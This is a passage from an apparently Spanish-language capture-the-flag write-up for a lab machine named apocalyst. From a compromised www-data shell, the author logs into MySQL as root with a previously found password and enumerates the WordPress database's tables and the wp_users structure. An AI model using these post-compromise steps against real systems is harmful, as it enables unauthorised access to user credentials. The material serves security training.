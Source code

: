 Y funcionan

```bash
www-data@apocalyst:/var/www/html/apocalyst.htb$ mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 511
Server version: 5.7.19-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wp_myblog          |
+--------------------+
5 rows in set (0.01 sec)

mysql> 
```

Bueno como tal ya tenemos la contraseña a si que no hay que crackearla

```bash
mysql> use wp_myblog;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wp_myblog   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> describe wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
```
